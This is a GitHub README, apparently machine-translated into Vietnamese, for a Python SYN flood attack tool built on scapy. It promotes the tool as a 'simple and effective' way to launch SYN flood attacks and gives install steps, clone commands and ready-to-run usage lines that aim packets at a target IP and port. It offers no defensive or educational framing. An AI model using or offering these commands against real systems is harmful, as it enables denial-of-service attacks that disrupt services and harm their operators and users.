 # Python2/3-SYN-Flood-Attack-Tool

[![](https://img.shields.io/github/issues/EmreOvunc/Python-SYN-Flood-Attack-Tool)](https://github.com/EmreOvunc/Python-SYN-Flood-Attack-Tool/issues)
[![](https://img.shields.io/github/stars/EmreOvunc/Python-SYN-Flood-Attack-Tool)](https://github.com/EmreOvunc/Python-SYN-Flood-Attack-Tool/stargazers)
[![](https://img.shields.io/github/forks/EmreOvunc/Python-SYN-Flood-Attack-Tool)](https://github.com/EmreOvunc/Python-SYN-Flood-Attack-Tool/network/members)

Công cụ tấn công lũ lụt Python SYN

Bạn có thể bắt đầu cuộc tấn công SYN Flood bằng công cụ này.

Đơn giản và hiệu quả.

## Sự phụ thuộc
```
apt install python-scapy
apt install python3-scapy
```

## Cài đặt

```
git clone https://github.com/DauDau432/SYN-Flood-Attack-Tool
cd SYN-Flood-Attack-Tool
```

## Cách sử dụng

```
python3 py3_synflood_cmd.py -t 10.20.30.40 -p 8080 -c 5
python3 py3_SYN-Flood.py
python SYN-Flood.py
```
```
cách sử dụng: py3_synflood_cmd.py [--help] [--target TARGET] [--port PORT]
                           [--count COUNT] [--version]
đối số tùy chọn:
  --help, -h hiển thị thông báo trợ giúp này và thoát
  --target TARGET, -t Mục tiêu
địa chỉ IP mục tiêu
  --port PORT, -p PORT số cổng mục tiêu
  --count COUNT, -c ĐẾM
số lượng gói tin
  --version, -v hiển thị số phiên bản của chương trình và thoát

ví dụ: python3 py3_synflood_cmd.py -t 10.20.30.40 -p 8080 -c 1
```

![alt tag](https://emreovunc.com/projects/python_synflood_attack_cmd.png)

![alt tag](https://emreovunc.com/projects/Syn_Flood_01.png)

![alt tag](https://emreovunc.com/projects/Syn_Flood_02.png)
